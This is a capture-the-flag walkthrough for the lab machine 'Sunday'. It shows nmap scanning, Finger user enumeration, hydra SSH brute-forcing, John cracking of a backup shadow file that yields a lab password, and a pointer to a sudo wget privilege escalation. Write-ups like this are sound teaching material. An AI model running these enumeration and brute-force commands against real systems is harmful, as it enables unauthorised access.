 # About
Sunday is a fairly simple machine, however it uses fairly old software and can be a bit unpredictable at times. It mainly focuses on exploiting the Finger service as well as the use of weak credentials. 

# Enumeration

```
nmap 10.129.63.191 -p- -sV -sC --open
```

```
PORT      STATE    SERVICE        VERSION
20/tcp    filtered ftp-data
79/tcp    open     finger?
|_finger: No one logged on\x0D
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq, TerminalServerCookie: 
|_    Login Name TTY Idle When Where

111/tcp   open  rpcbind 2-4 (RPC #100000)
515/tcp   open  printer
6787/tcp  open  http    Apache httpd
|_http-title: 400 Bad Request
|_http-server-header: Apache
22022/tcp open  ssh     OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:00:94:32:18:60:a4:93:3b:87:a4:b6:f8:02:68:0e (RSA)
|_  256 da:2a:6c:fa:6b:b1:ea:16:1d:a6:54:a1:0b:2b:ee:48 (ED25519)
```

## Finger Service

Find a Enum Tool [Here](https://github.com/pentestmonkey/finger-user-enum/blob/master/finger-user-enum.pl)

```
./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.129.63.191
```

We get the following users

```
sammy@10.129.63.191: sammy           ???            ssh          <Apr 13, 2022> 10.10.14.13         ..
sunny@10.129.63.191: sunny           ???            ssh          <Apr 13, 2022> 10.10.14.13         ..
```

## SSH

Knowing we have some users, I am going to send a basic password attack on SSH to check for weak credentials

![](Images/Pasted%20image%2020250502125033.png)

```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -u -f ssh://10.129.63.191:22022 -t 4
```

After a while we get a successful SSH authentication

![](Images/Pasted%20image%2020250502125603.png)

We can use that to establish our connection to proceed further. After getting logged in I went to the root directory and noticed a nontypical directory /backups.

![](Images/Pasted%20image%2020250502130131.png)

Attempt to brute force the shadow.backup file using John.

```
john shadow.backup --wordlist=/usr/share/wordlists/rockyou.txt
```

We get a new user password `sammy:cooldude!`

![](Images/Pasted%20image%2020250502130346.png)

Login with sammy and grab the user flag.

![](Images/Pasted%20image%2020250502130429.png)

Sammy can run wget as root

![](Images/Pasted%20image%2020250502130518.png)

[Wget GTFO](https://gtfobins.github.io/gtfobins/wget/)

![](Images/Pasted%20image%2020250502130654.png)

Grab the root flag.


